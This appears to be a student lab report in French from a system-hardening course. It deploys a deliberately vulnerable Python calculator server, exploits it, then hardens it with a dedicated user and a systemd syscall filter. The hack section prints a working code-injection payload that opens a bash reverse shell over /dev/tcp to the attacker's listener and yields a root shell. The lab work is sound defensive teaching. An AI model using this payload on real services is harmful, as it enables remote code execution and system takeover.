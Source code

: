 # Part IV : My shitty app

## 1. Test

🌞 **Téléchargez l'app Python dans votre VM**

- avec une commande `curl` par exemple
- stockez le fichier `calc.py` dans le répertoire `/opt/`
```
[dash@localhost ~]$ sudo curl https://gitlab.com/it4lik/m1-hardening-2024/-/raw/main/tp/2/calc.py -o /opt/calc.py
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   780  100   780    0     0   5000      0 --:--:-- --:--:-- --:--:--  5000

```

🌞 **Lancer l'application dans votre VM**

- lancez-la avec : `python3 /opt/calc.py`
- ouvrez le bon port firewall

```
[dash@localhost ~]$ sudo firewall-cmd --add-port=13337/tcp --permanent
[sudo] password for dash: 
success
[dash@localhost ~]$ sudo firewall-cmd --reload
success
[dash@localhost ~]$ sudo python3 /opt/calc.py 

```
- connectez-vous avec une commande `nc` (depuis votre PC)
- essayez d'envoyer genre "3+3" une fois connecté
- l'app doit vous répondre "6"

Sur le shell de ma machine
```
┌─[dashboard@parrot]─[~]
└──╼ $nc 192.168.133.129 13337

Hello3+3
6

```

## 2. Création de service

🌞 **Créer un service `calculatrice.service`**

```
[dash@localhost ~]$ sudo nano /etc/systemd/system/calculatrice.service
[Unit]
Description=Super serveur calculatrice

[Service]
ExecStart=/usr/bin/python3 /opt/calc.py
Restart=always
```

🌞 **Indiquer à systemd que vous avez modifié les services**

```
[dash@localhost ~]$ sudo systemctl daemon-reload
```

🌞 **Vérifier que ce nouveau service est bien reconnu***

```
[dash@localhost ~]$ systemctl status calculatrice
○ calculatrice.service - Super serveur calculatrice
     Loaded: loaded (/etc/systemd/system/calculatrice.service; static)
     Active: inactive (dead)
```

🌞 **Vous devez pouvoir utiliser l'application normalement :**

- démarrage de l'application avec `sudo systemctl start calculatrice`
```
[dash@localhost ~]$ sudo systemctl start calculatrice
```

## 3. Hack

🌞 **Hack l'application**

- depuis votre PC, vous vous connectez à l'application Python avec `nc`
```
┌─[✗]─[dashboard@parrot]─[~]
└──╼ $nc 192.168.133.129 13337

Hello__import__('os').system("bash -c 'bash -i >& /dev/tcp/192.168.133.128/4444 0>&1'")

```

- exploitez l'application pour obtenir un shell `root`  
```
┌─[dashboard@parrot]─[~]
└──╼ $nc -lnvp 4444
listening on [any] 4444 ...
connect to [192.168.133.128] from (UNKNOWN) [192.168.133.129] 45234
bash: cannot set terminal process group (302520): Inappropriate ioctl for device
bash: no job control in this shell
[root@localhost /]# ls
ls
afs
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
[root@localhost /]# 

```

## 4. Harden

### A. Utilisateurs

🌞 **Prouvez que le service s'exécute actuellement en `root`**

```
[dash@localhost ~]$ ps -ef | grep calc.py
root      342939       1  0 15:29 ?        00:00:00 /usr/bin/python3 /opt/calc.py
dash      344690   10782  0 15:30 pts/0    00:00:00 grep --color=auto calc.py

```

🌞 **Créer l'utilisateur `calculatrice`**

- principe du moindre privilège :
```
[dash@localhost ~]$ sudo useradd -M -N -s /sbin/nologin calculatrice
```

🌞 **Adaptez les permissions**

- le fichier `/opt/calc.py` doit appartenir à notre nouvel utilisateur
- le fichier `/opt/calc.py` doit appartenir à notre nouveau groupe
- les permissions doivent être les plus restrictives possibles pour que le service fonctionne
```
[dash@localhost ~]$ sudo chown calculatrice:calculatrice /opt/calc.py 
[dash@localhost ~]$ ls -l /opt/calc.py 
-rwxr-x---. 1 calculatrice calculatrice 780 Feb 11 14:01 /opt/calc.py

```

🌞 **Modifier le `.service`**

- ajoutez la clause `User=calculatrice`
- n'oubliez pas de `sudo systemctl daemon-reload` pour que le changement prenne effet
- redémarrez le service
```
[dash@localhost ~]$ sudo nano /etc/systemd/system/calculatrice.service
User=calculatrice
[dash@localhost ~]$ sudo systemctl daemon-reload
[dash@localhost ~]$ sudo systemctl restart calculatrice

```

🌞 **Prouvez que le service s'exécute désormais en tant que `calculatrice`**

- avec une commande `ps` et un `grep`
```
[dash@localhost ~]$ ps -ef | grep calc.py
calcula+  389956       1  1 15:53 ?        00:00:00 /usr/bin/python3 /opt/calc.py
dash      390043   10782  0 15:53 pts/0    00:00:00 grep --color=auto calc.py

```

### B. Syscalls


🌞 **Tracez l'exécution de l'application : normal**

- effectuez un tracing avec `strace` ou `sysdig`
- donnez dans le compte-rendu la liste des syscalls effectués par l'application `calc.py` pendant son fonctionnement normal
```
[dash@localhost ~]$ sudo sysdig proc.name=python3 > normal_trace.log
[sudo] password for dash: 
[dash@localhost ~]$ sudo cat normal_trace.log | cut -d' ' -f7 | sort | uniq | tr '\n' ' '
accept4 access arch_prctl bind brk close dup epoll_create1 execve exit_group fcntl fstat futex getdents64 getegid geteuid getgid getpeername getrandom getsockname getuid ioctl listen lseek mmap mprotect munmap newfstatat openat pread prlimit procexit read readlink recvfrom rseq rt_sigaction sendto set_robust_list setsockopt set_tid_address socket switch sysinfo write
```

🌞 **Tracez l'exécution de l'application : hack**

- idem, mais pendant que vous exploitez la vulnérabilité

```
[dash@localhost ~]$ sudo cat hack_trace.log | cut -d' ' -f7 | sort | uniq | tr '\n' ' '
accept4 clone3 execve getsockname mmap munmap recvfrom rt_sigaction rt_sigprocmask sendto switch wait4 [dash@localhost ~]$
```
- vous voyez un ou plusieurs syscalls en plus ? Si oui, lesquels ?
Oui. `clone3`, `rt_sigprocmask` et `wait4`  

🌞 **Adaptez le `.service`**

- ajoutez un filtrage des *syscalls* dans le fichier `calculatrice.service`

```
[dash@localhost ~]$ sudo nano /etc/systemd/system/calculatrice.service
SystemCallFilter=~clone3 rt_sigprocmask wait4
[dash@localhost ~]$ sudo systemctl daemon-reload
[dash@localhost ~]$ sudo systemctl restart calculatrice

```
- vérifiez que l'exploitation est devenue plus compliquée
```
┌─[dashboard@parrot]─[~]
└──╼ $nc 192.168.133.129 13337

Hello__import__('os').system("bash -c 'bash -i >& /dev/tcp/192.168.133.128/4444 0>&1'")
┌─[dashboard@parrot]─[~]
└──╼ $
```
